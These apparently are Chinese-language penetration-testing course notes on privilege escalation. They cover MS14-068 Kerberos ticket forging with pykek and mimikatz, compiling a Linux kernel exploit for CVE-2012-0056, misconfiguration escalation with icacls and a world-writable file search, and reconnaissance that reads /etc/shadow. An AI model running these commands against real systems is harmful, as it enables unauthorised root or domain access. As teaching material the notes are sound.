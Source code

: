
#### 利用漏洞提权

- Ms14- 068
- 库
    - https://github.com/bidord/pykek
- ms14-068.py -u user@lab.com -s userSID - d dc.lab.com
- 拷贝 TGT_user1@lab.com.ccache 到windows系统
- 本地管理员登陆
    - mimikatz.exe log "kerberos::ptc TGT_user@lab.com.ccache" exit


#### 利用漏洞提权

- Ubuntu11.
    - [http://old-releases.ubuntu.com/releases/11.10/](http://old-releases.ubuntu.com/releases/11.10/)
- gcc
    - sudo apt-cdrom add && sudo apt-get install gcc
    - gcc 18411.c -o exp
- CVE- 2012 - 0056
    - /proc/pid/mem
    - kernels >=2.6.
    - [http://blog.zx2c4.com/](http://blog.zx2c4.com/)


#### 利用配置不当提权

- 与漏洞提权相比 更常用的方法
    - 企业环境
    - 补丁更新的全部已经安装
    - 输入变量过滤之外更值得研发关注的安全隐患
    - 以system权限启动
    - NTFS权限允许users修改删除


#### 利用配置不当提权

- icacls
    - icacls c:\windows\*.exe /save perm /T
    - i586-mingw32msvc-gcc -o admin.exe admin.c
- Find
    - find / -perm 777 -exec ls -l {} \;


#### 利用配置不当提权

- 应用系统的配置文件
    - 应用连接数据库的配置文件


#### 基本信息收集

- Linux
    - /etc/resolv.conf
    - /etc/passwd
    - /etc/shadow
    - whoami and who –a
    - ifconfig - a, iptables - L -n, ifconfig – a, netstat – r
    - uname – a, ps aux
    - dpkg - l| head
